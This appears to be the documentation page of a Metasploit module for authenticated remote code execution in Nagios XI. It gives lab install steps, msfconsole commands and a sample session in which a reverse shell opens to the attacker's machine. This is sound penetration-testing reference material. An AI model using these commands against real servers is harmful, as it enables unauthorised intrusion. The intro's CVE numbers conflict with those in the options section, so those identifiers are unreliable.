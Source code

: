 ## Vulnerable Application
This module exploits CVE-2021-25926, CVE-2021-25927, and CVE-2021-25928: OS command injection vulnerabilities
in `/nagiosxi/config/monitoringwizard.php` that enable an authenticated user to achieve remote code execution
on NagiosXI from versions 5.5.6 to 5.7.5 as the `apache` user. There are three vulnerable configuration wizards
(`windowswmi`, `switch`, `cloud-vm`) that use two vulnerable URL parameters
(`ip_address`, `plugin_output_len`). The `windowswmi` configuration wizard uses the
`plugin_output_len` parameter, while `switch` and `cloud-vm` use the `ip_address` parameter.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate
to the target and obtain the version of Nagios XI installed, which is then used to check if the target is running a version
of NagiosXI between versions 5.5.6 and 5.7.5.

### Installation Steps
Note: The module can attempt to complete the configuration steps after NagiosXI has been installed.

#### Pre-installed OVA
1. Download an OVA with NagiosXI installed
    1. An OVA with a vulnerable NagiosXI 5.7.5 application can be downloaded from 
    Nagios [here](https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.7.5-64.ova).
    2. To download other vulnerable versions, replace the version number in the URL with the desired version.
2. Configure the NagiosXI installation
    1. The OVA has NagiosXI running on startup. Launch the VM and visit the VM's IP in a browser.
    2. Go through defaults on the install. When you get to Admin Account Settings, configure the `nagiosadmin`
    user's password and whether you'd like to force HTTPS.
    3. Login as the `nagiosadmin` user and accept the license agreement when prompted.

#### Manual Install on Linux
Note: NagiosXI can only be installed on specific operating systems (RHEL, CentOS, Oracle Linux, Debian, Ubuntu).
Supported version numbers can be found in the installation guide
[here](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf). Older versions of
NagiosXI might require older versions of the operating systems mentioned. Consult the specific version's documentation if errors occur
on newer distributions.

1. Download NagiosXI
    1. Choose a version between 5.5.6 and 5.7.5 from [here](https://www.nagios.com/downloads/nagios-xi/older-releases/)
2. Install NagiosXI with the following commands
    1. `tar xzf xi-5.7.5.gz`
    2. `cd nagiosxi`
    3. `./fullinstall`
3. Configure the NagiosXI installation
    1. Visit the installed NagiosXI application in a web browser.
    2. Go through defaults on the install. When you get to Admin Account Settings, configure the `nagiosadmin`
    user's password and whether you'd like to force HTTPS.
    3. Login as the `nagiosadmin` user and accept the license agreement when prompted.

### Troubleshooting Installation
- NagiosXI doesn't show it's ip address
  - Login as the `root` user with `nagiosxi` as the password, and run `ip a` to get the IP
  - Ensure it's on a network accessible from your attacking machine (e.g. Nat network instead of Bridged)
- NagiosXI fails when attempting to login manually with an "NSP Sorry Dave" message
  - The NagiosXI installation is likely out of sync with its date/time.
  - Set it manually with `timedatectl set-ntp false` and `timedatectl set-time '2023-02-06 17:34:00'` but with the actual time and date

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/nagios_xi_configwizards_authenticated_rce`
- [ ] `set RHOSTS TARGET_IP`
- [ ] `set RPORT 443`
- [ ] `set SSL true`
- [ ] `set USERNAME USER`
- [ ] `set PASSWORD PASSWORD`
- [ ] `set TARGET_CVE CVE-2021-25296`
- [ ] `set LHOST YOUR_IP`
- [ ] `set LPORT YOUR_LISTENING_PORT`
- [ ] `run`

## Options

### USERNAME
A valid NagiosXI username, which can be for an administrator or regular user.

### PASSWORD
The password for the provided NagiosXI username.

### TARGET_CVE
The CVE to target. Each CVE corresponds to a specific target:
- CVE-2021-25296: `windowswmi` configuration wizard RCE via the `plugin_output_len` URL parameter
- CVE-2021-25297: `switch` configuration wizard RCE via the `ip_address` URL parameter
- CVE-2021-25298: `cloud-vm` configuration wizard RCE via the `ip_address` URL parameter.

Note that CVE-2021-25298 is in the `cloud-vm` configuration wizard but we set the `wizard`
URL parameter value to `digitalocean` in order to make sure we use this wizard; there are
potentially other values that could be used here.

## Scenarios

### CentOS7 running NagiosXI 5.5.6 to 5.7.5 (Official OVA)
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOSTS 192.168.104.17
RHOSTS => 192.168.104.17
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.104.2
LHOST => 192.168.104.2
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 8443
LPORT => 8443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.104.2:8443 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.104.2:8443 -> 192.168.104.17:56742) at 2023-02-06 13:35:49 -0500

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```
